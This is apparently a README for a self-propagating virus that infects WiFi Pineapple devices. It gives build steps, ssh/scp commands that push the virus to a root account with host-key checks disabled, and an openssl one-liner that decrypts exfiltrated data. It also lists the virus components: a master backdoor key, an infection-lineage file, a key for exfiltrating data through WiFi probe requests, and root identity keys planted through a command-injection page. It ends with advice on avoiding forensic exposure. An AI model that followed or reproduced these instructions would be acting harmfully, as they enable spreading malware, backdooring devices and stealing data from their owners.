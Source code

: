 Build:
./build.sh

Distribute to a working pineapple with version 2.3:

ssh -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null root@172.16.42.1 "mkdir /tospo"

scp -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null dist/tv* root@172.16.42.1:/tospo/

Decrypting ex-filtrated data:

printf $(echo "$1" | sed -re 's/(..)/\\x\1/g') | openssl rsautl -decrypt -inkey tvd.pem


Files & Purpose:

   tv   - The virus itself.

   tvbd - The "master" backdoor key, do not distribute the private key.

   tvi  - The infection list - carries information about the heritage of this device.

   tvd  - The disclosure key, used for exfiltrating data via probe requests.

   tospo_rsa     - The identity private key, specific to each infected device used as the transfer key.

   tospo_rsa.pub - The identity public key, transferred via the command injection page to allow the private identity to perform actions as root on the remote device.

   w - Pushed wireless configuration options, used to restore previous connections.

   n - Pushed network configuration options, used to restore previous connections.

Files starting with 'tv' are all transferred when infecting a new device. Do not add private keys and the like using names beginning with 'tv' or else your private key will be exposed to forensic analysis.